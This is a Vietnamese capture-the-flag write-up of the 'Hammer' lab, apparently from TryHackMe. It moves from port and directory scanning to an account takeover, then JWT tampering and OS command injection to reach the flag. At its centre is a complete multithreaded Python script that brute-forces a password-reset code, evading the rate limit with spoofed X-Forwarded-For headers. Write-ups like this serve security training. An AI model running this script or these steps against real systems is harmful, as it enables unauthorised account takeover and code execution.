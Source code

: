 # Hammer

## Challenge

- Use your exploitation skills to bypass authentication mechanisms on a website and get RCE.

![image.png](/image/image.png)

## Recon

- Sử dụng `nmap` để quét các cổng dịch vụ `sV` của **10.10.216.73**

```bash
nmap -sV -sC -p- 10.10.216.73 -T4
```

![image.png](/image/image%201.png)

→ Port 22 sử dụng `ssh` version `OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)`

→ Port 1337 sử dụng `http` version `Apache httpd 2.4.41 ((Ubuntu))`

- Truy cập vào trang web [`http://10.10.216.73:1337`](http://10.10.216.73:1337)

![image.png](/image/image%202.png)

- Quét thư mục trang web

```bash
gobuster dir -u 'http://10.10.216.73:1337' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![image.png](/image/image%203.png)

```bash
ffuf -u http://10.10.216.73:1337/hmr_FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![image.png](/image/image%204.png)

## Exploitation

- Một số dir được khám phá: `logs` , `vendor`

![image.png](/image/image%205.png)

→ Tuy nhiên khi truy cập sâu vào các file mã nguồn, trang web đã ẩn đi

![image.png](/image/image%206.png)

- Khi `view-source`, thấy comments gợi ý

![image.png](/image/image%207.png)

→ Thử lại với `hmr_logs`

![image.png](/image/image%208.png)

- Truy cập vào endpoint `error.logs`

![image.png](/image/image%209.png)

→ Thông tin về 1 tài khoản có tên `tester@hammer.thm` 

- Quay lại tính năng reset password

![image.png](/image/image%2010.png)

![image.png](/image/image%2011.png)

- Quan sát trên burp thấy có `Rate-Limit-Pending` 
    - Khi thực hiện mỗi yêu cầu, giá trị `Rate-Limit-Pending` trong response header sẽ giảm dần. Ban đầu, giá trị này là 9.

    - Sau khi giá trị này giảm xuống 0, giới hạn rate limit bị đạt tới và token không thể được reset. Ban đầu, tác giả nhầm tưởng rằng reset token sẽ được làm mới với mỗi lần reset, khiến họ nghĩ rằng chỉ có thể lấy được token mới một cách may mắn.

    - Phát hiện quan trọng: Reset token tồn tại trong 180 giây, không bị reset khi tạo `PHPSESSID` mới.Nếu yêu cầu reset mà không có cookie, hệ thống sẽ cấp một session mới. Nếu lấy `PHPSESSID` từ response và sử dụng nó, sẽ có lại 8 lần thử, nhưng sau 180 giây, mọi thứ được reset.

![image.png](/image/image%2012.png)


- Dựa trên thông tin trên, họ có thể tự động brute force quy trình khôi phục mật khẩu bằng cách:
    - Gửi yêu cầu đặt lại mật khẩu để lấy `PHPSESSID` mới.
    - Gửi mã khôi phục mật khẩu liên tục.
    - Cứ sau 7 lần thử, làm mới `PHPSESSID` để có lại 8 lần thử mới.
    - Kiểm tra phản hồi để phát hiện khi nào mật khẩu được đặt lại thành công bằng cách so sánh sự thay đổi số lượng từ trong phản hồi.

```python
import requests
import random
import threading
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry

url = "http://10.10.216.73:1337/reset_password.php"
num_threads = 50
stop_flag = threading.Event()

# Retry mechanism
retry_strategy = Retry(
    total=5,
    backoff_factor=1,
    status_forcelist=[500, 502, 503, 504],
    raise_on_status=False
)

adapter = HTTPAdapter(max_retries=retry_strategy)
session = requests.Session()
session.mount("http://", adapter)

def brute_force_code(start, end):
    for code in range(start, end):
        code_str = f"{code:04d}"
        try:
            r = session.post(
                url,
                data={"recovery_code": code_str, "s": "180"},
                headers={
                    "X-Forwarded-For": f"127.0.{random.randint(0, 255)}.{random.randint(0, 255)}"
                },
                timeout=10,
                allow_redirects=False,
            )
            if stop_flag.is_set():
                return
            elif r.status_code == 302:
                stop_flag.set()
                print("[-] Timeout reached. Try again.")
                return
            elif "Invalid or expired recovery code!" not in r.text:
                stop_flag.set()
                print(f"[+] Found the recovery code: {code_str}")
                print("[+] Sending the new password request.")
                new_password = "Password123"
                session.post(
                    url,
                    data={
                        "new_password": new_password,
                        "confirm_password": new_password,
                    },
                    headers={
                        "X-Forwarded-For": f"127.0.{random.randint(0, 255)}.{random.randint(0, 255)}"
                    },
                )
                print(f"[+] Password is set to {new_password}")
                return
        except requests.exceptions.RequestException as e:
            print(f"Error: {e}")
            continue

def main():
    print("[+] Sending the password reset request.")
    session.post(url, data={"email": "tester@hammer.thm"})
    print("[+] Starting the code brute-force.")
    code_range = 10000
    step = code_range // num_threads
    threads = []
    for i in range(num_threads):
        start = i * step
        end = start + step
        thread = threading.Thread(target=brute_force_code, args=(start, end))
        threads.append(thread)
        thread.start()
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()
```
- [Code](/bf.py)

![image.png](/image/image%2013.png)

- Login với mật khẩu mới

![image.png](/image/image%2014.png)

- Nhập thử vào ô `Enter command` và bắt request ở burp

![image.png](/image/image%2015.png)

```xml
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzM4NjgzMzg3LCJleHAiOjE3Mzg2ODY5ODcsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.4dIrj5TZf0aC8yCiUdDCRcl2C88SAY5KWc4SmMwr_kk
```

→ Token leak từ trang web

![image.png](/image/image%2016.png)

- Thử sửa một chút ở burp

![image.png](/image/image%2017.png)

→ Đặt `persistentSession=yes` và payload OS injection thành `ls` 

→ `188ade1.key` leak

![image.png](/image/image%2018.png)

![image.png](/image/image%2019.png)

- Thử đọc flag nhưng không được

![image.png](/image/image%2020.png)

- Quay lại sửa tiếp ở jwt

![image.png](/image/image%2021.png)

- Quay lại và đọc file flag

![image.png](/image/image%2022.png)
